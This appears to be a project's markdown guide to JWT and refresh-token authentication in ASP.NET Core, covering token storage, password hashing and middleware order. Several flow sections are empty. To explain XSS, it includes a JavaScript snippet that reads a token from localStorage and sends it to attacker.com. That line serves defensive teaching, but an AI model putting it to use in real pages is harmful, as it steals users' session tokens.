




# Authentication & Authorization Architecture Guide

Welcome to Phase 2! This guide explains step-by-step how authentication works in modern web applications, why we chose this specific architecture, how each component fits together in ASP.NET Core (C#), and what each piece of code does.

---

## 1. The Big Picture: Core Concepts

Before looking at code, let's understand the two key terms:
* **Authentication (AuthN):** *"Who are you?"* (e.g., verifying your username and password).
* **Authorization (AuthZ):** *"What are you allowed to do?"* (e.g., Rahul can view Rahul's letters, but cannot open Priya's letter before it arrives).

### The Challenge of Web APIs
HTTP is **stateless**. Every single HTTP request from the browser to the backend arrives as an isolated message. The server doesn't inherently remember who sent the previous request.

### The Modern Solution: The Dual-Token Model
Instead of storing session state on the server or asking for passwords on every request, we use two tokens working together:

| Token | Lifespan | Where It Lives | Transport | Purpose |
|---|---|---|---|---|
| **Access Token (JWT)** | Very Short (15 minutes) | Frontend Memory (JavaScript variable) | `Authorization: Bearer <token>` header | Sent on every API call to prove identity. Validated purely by cryptographic signature without hitting the database. |
| **Refresh Token** | Longer (14 days) | Database (hashed) & Browser Cookie | `HttpOnly; Secure; SameSite=Lax` cookie | Used **only** to get a new Access Token when the old one expires. JavaScript cannot read it, protecting it from theft. |

```
                       ┌─────────────────────────────────────────┐
                       │           CLIENT (Browser / SPA)        │
                       └────┬───────────────────────────────┬────┘
                            │                               │
        1. API Requests     │                               │ 2. Refresh Request
     (Every ~seconds/mins)  │                               │ (Once every 15 mins)
      Authorization: Bearer │                               │ HttpOnly Cookie:
            <JWT>           ▼                               ▼   <refreshToken>
                       ┌────────────────────────┐      ┌────────────────────────┐
                       │  Protected API Routes  │      │   POST /auth/refresh   │
                       │  (/me, /letters, etc.) │      └───────────┬────────────┘
                       └───────────┬────────────┘                  │
                                   │                               │
                      Validated cryptographically            Looked up & rotated
                         (No Database Query!)                  in Database
                                   ▼                               ▼
                             [Success 200]                    [New JWT + Cookie]
```

---

## 2. Why We Store Tokens This Way (Security 101)

### Why not store tokens in `localStorage`?
If an attacker injects malicious JavaScript into the webpage (called a **Cross-Site Scripting** or **XSS** attack via a compromised npm package or malformed user content), any script can run:
```javascript
// A hacker's script could steal this in 1 line:
const token = localStorage.getItem("token");
fetch("https://attacker.com/steal?t=" + token);
```

### The Cookie Defense: `HttpOnly`
When the backend sets the refresh token cookie, it adds flags:
* **`HttpOnly`**: JavaScript **cannot** access `document.cookie` to read the token. Even if an attacker executes XSS, they cannot read the refresh token.
* **`Secure`**: The cookie is only transmitted over HTTPS (encrypted in transit).
* **`SameSite=Lax`**: The cookie is not sent on cross-origin image requests or third-party embeds, preventing **Cross-Site Request Forgery (CSRF)**.

### Why hash Refresh Tokens in the Database?
Just like passwords, if a database backup is ever compromised, an attacker shouldn't be able to read active refresh tokens. We store only the **SHA-256 hash** of the refresh token.

---

## 3. The 4 Main Authentication Flows

### Flow 1: Registration (`POST /api/v1/auth/register`)

When a new user signs up:
1. Validate inputs (username regex `^[a-zA-Z0-9_]{3,30}$`, valid email, minimum password length, valid location ID).
2. Check for unique normalized username and email.
3. Hash the password using `IPasswordHasher<User>` (PBKDF2 with salt).
4. Create the `User` entity.
5. Create an initial `RefreshToken` and save it to the database.
6. Generate a short-lived **JWT Access Token**.
7. Set the `refreshToken` HttpOnly cookie in the HTTP response and return the user profile + JWT in the JSON body.



---

### Flow 2: Login (`POST /api/v1/auth/login`)



---

### Flow 3: Calling a Protected Endpoint (e.g., `GET /api/v1/me`)

This is where the power of JWTs shines.



---

### Flow 4: Silent Token Refresh with Token Rotation (`POST /api/v1/auth/refresh`)

When the 15-minute Access Token expires, the frontend catches the `401 Unauthorized` and silently asks the backend for a new access token without forcing the user to log in again.



---

## 4. Deep Dive into the C# Building Blocks

### A. What is a JWT really?
A JSON Web Token looks like this:
`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTYiLCJ1bmlxdWVfbmFtZSI6InJhaHVsIiwiZXhwIjoxNTE2MjM5MDIyfQ.4pP3Nm2f...`

It has three parts separated by dots (`.`):
1. **Header:** Algorithm used (e.g., `HS256`).
2. **Payload:** The "Claims" (data packaged inside the token):
   ```json
   {
     "sub": "b2c6... (User ID)",
     "unique_name": "rahul_writes",
     "displayName": "Rahul Sharma",
     "exp": 1756850000,
     "iss": "DigitalPostal",
     "aud": "DigitalPostalWeb"
   }
   ```
3. **Signature:** `HMACSHA256(Base64(Header) + "." + Base64(Payload), SecretKey)`.
   * Only the backend knows `SecretKey`. If anyone tampers with the payload (like changing their user ID), the signature won't match, and ASP.NET Core rejects the request instantly!

### B. What is a `ClaimsPrincipal` in C#?
When ASP.NET Core successfully validates a JWT, it populates `HttpContext.User`.
* `Claim`: A key-value fact about the user (e.g., `ClaimTypes.NameIdentifier` = `"user-guid"`).
* In minimal API endpoints, you simply add `ClaimsPrincipal user` to your lambda parameters, and ASP.NET Core injects it automatically:
  ```csharp
  app.MapGet("/me", (ClaimsPrincipal user) =>
  {
      var userId = user.FindFirstValue(ClaimTypes.NameIdentifier);
      return Results.Ok($"Hello, user {userId}");
  }).RequireAuthorization();
  ```

### C. Password Hashing with `IPasswordHasher<User>`
We use ASP.NET Core's built-in `PasswordHasher<TUser>`.
* It automatically generates a cryptographically random salt.
* It uses PBKDF2 (Password-Based Key Derivation Function 2) with HMAC-SHA512.
* When checking a password, `VerifyHashedPassword(user, hash, password)` extracts the salt from the stored hash, hashes the input password with the same salt, and compares them using a constant-time comparison to prevent timing attacks.

### D. Middleware Execution Order in `Program.cs`
Order in ASP.NET Core matters! Notice the order in pipeline:
```csharp
app.UseCors();           // 1. Check browser origin allowance first
app.UseAuthentication(); // 2. "Who are you?" (Inspect JWT header and build ClaimsPrincipal)
app.UseAuthorization();  // 3. "Are you allowed?" (Check [Authorize] or .RequireAuthorization())
```
If `UseAuthorization()` is placed *before* `UseAuthentication()`, authorization will always fail because the user hasn't been identified yet!

---

## 5. Phase 2 Implementation Roadmap

Here is the exact order we will implement Phase 2:

```text
Step 1: Security Infrastructure
  ├── JwtSettings.cs            (Configuration binding for keys & expiry)
  ├── IPasswordHasherService.cs (Abstraction for hashing & verifying)
  ├── PasswordHasherService.cs  (ASP.NET Core Identity PBKDF2 implementation)
  ├── ITokenService.cs          (Interface for creating JWTs and Refresh Tokens)
  └── TokenService.cs           (HMAC-SHA256 JWT builder & secure RNG)

Step 2: Auth Feature Layer
  ├── AuthDtos.cs               (RegisterRequest, LoginRequest, AuthResponse)
  ├── AuthService.cs            (Registration, Login, Refresh, Logout logic)
  └── AuthEndpoints.cs          (/api/v1/auth/register, /login, /refresh, /logout)

Step 3: Users Feature Layer
  ├── UserDtos.cs               (UserProfileDto, UpdateLocationRequest, UserSearchResultDto)
  └── UserEndpoints.cs          (/api/v1/me, /api/v1/me/location, /api/v1/users/search)

Step 4: Integration
  ├── appsettings.Development.json (Add Jwt configuration section)
  └── Program.cs                   (AddAuthentication, AddJwtBearer, Swagger Bearer spec, Map endpoints)
```

With this architecture, the backend is robust, stateless, secure against XSS and CSRF, and ready for frontend integration!
